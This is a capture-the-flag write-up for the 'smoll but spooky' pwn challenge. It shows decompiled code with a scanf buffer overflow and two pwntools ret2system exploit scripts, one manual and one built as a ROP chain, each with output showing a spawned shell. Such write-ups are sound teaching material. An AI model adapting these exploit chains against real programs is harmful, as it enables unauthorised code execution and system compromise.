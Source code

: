 # smoll but spooky

Again I didn't attempt this challenge, what a waste. Anyway's here's the description:

<figure><img src="../../../.gitbook/assets/image (856).png" alt=""><figcaption></figcaption></figure>

It mentions that there is a "bash". This hints that the `/bin/sh` string is present in the binary itself. Let us confirm this

<figure><img src="../../../.gitbook/assets/image (858).png" alt=""><figcaption></figcaption></figure>

Yep, that confirms it. Let's try looking at `main()`&#x20;

```c
undefined8 main(void)

{
  undefined buffer [16];
  
  system("echo -n \"Is it that spooky?\"");
  __isoc99_scanf(&DAT_004006c5,buffer);
  printf("Welcome to Blackberry CTF 2025, %s!\n",buffer);
  return 0;
}
```

We can notice 2 things here: &#x20;

1. &#x20;`system()` is called from the library into the PLT (Procedure Linkage Table) meaning it has a `system@plt` entry in the ELF&#x20;
2. There is a Buffer Overflow here:

```c
__isoc99_scanf(&DAT_004006c5,buffer);
```

This is a good candidate for ret2system exploitation because we have the necessary components for it.

We have two options on building the script, we can do it manually or do a ROP chain. I will do both because it's fun muehehehe

### Manual Script

```python
from pwn import *

elf = context.binary = ELF('./smoll-but-spooky', checksec=False)
context.log_level = 'info'

io = process()

offset = 24    # offset found using gdb
ret = 0x400479    # found using ropper
pop_rdi = 0x400683

binsh = next(elf.search(b'/bin/sh\x00'))
system = elf.sym['system']


payload = flat(
 	b'A' * offset,
 	ret,
 	pop_rdi,
 	binsh,
 	system
 )

io.sendlineafter(b"Is it that spooky?", payload)
io.interactive()
```

```
❯ python3 script.py

[+] Starting local process '/home/mfkrypt/bbctf/pwn/spooky/smoll-but-spooky': pid 697118
...
...
[*] Switching to interactive mode
Welcome to Blackberry CTF 2025, aaaabaaacaaadaaaeaaafaaay\x04@!
$ whoami
mfkrypt
```

### Auto Script

```python
from pwn import *

elf = context.binary = ELF('./smoll-but-spooky', checksec=False)
context.log_level = 'info'

io = process()

offset = 24    # offset found using gdb
ret = 0x400479    # found using ropper
pop_rdi = 0x400683

rop = ROP(elf)

rop.raw(ret)    # stack alignment
rop.system(next(elf.search(b'/bin/sh\x00')))

io.sendlineafter(b"Is it that spooky?", flat({offset: rop.chain()}))
io.interactive()
```

```
❯ python3 script.py

[+] Starting local process '/home/mfkrypt/bbctf/pwn/spooky/smoll-but-spooky': pid 697118
...
...
[*] Switching to interactive mode
Welcome to Blackberry CTF 2025, aaaabaaacaaadaaaeaaafaaay\x04@!
$ whoami
mfkrypt
```
